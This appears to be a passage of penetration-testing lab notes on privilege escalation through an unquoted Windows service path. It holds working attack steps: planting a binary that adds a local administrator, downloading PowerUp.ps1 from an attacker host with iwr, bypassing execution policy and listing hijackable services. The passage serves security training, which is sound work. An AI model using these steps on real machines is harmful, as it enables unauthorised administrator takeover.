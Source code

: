 # Try to exploit
PS C:\Users\steve> Start-Service GammaService
...
Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
...

# Service cannot start is normal as we just need to confirm our payload are successful create the user locally
PS C:\Users\steve> net user
PS C:\Users\steve> net localgroup administrators

# To restore the functionality of the original service, we have to stop the service and delete our binary Current.exe. After the executable file is removed, Windows will use the service binary GammaServ.exe again once the service is started.
PS C:\Program Files\Enterprise Apps> rm .\Current.exe
PS C:\Program Files\Enterprise Apps> Stop-Service GammaService
PS C:\Program Files\Enterprise Apps> Start-Service GammaService

# Go to Kali the automated tool detects this privilege escalation vector.
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

# Move the privesc automate tools to Victim PC
PS C:\Users\steve> iwr http://192.168.45.178/PowerUp.ps1 -Outfile PowerUp.ps1
PS C:\Users\steve> powershell -ep bypass
PS C:\Users\steve> . .\PowerUp.ps1
PS C:\Users\steve> Get-UnquotedService
ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService
